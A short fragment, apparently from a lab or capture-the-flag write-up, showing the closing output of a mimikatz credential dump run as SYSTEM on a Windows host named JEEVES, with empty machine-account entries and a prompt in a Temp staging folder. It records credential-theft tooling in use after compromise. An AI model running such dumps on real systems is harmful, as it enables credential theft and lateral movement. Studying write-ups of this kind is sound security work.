 ```bash
SID               : S-1-5-18
	msv :	
	tspkg :	
	wdigest :	
	* Username : JEEVES$
	* Domain   : WORKGROUP
	* Password : (null)
	kerberos :	
	* Username : jeeves$
	* Domain   : WORKGROUP
	* Password : (null)
	ssp :	
	credman :	

mimikatz(commandline) # exit
Bye!

C:\Windows\Temp\prives>
```
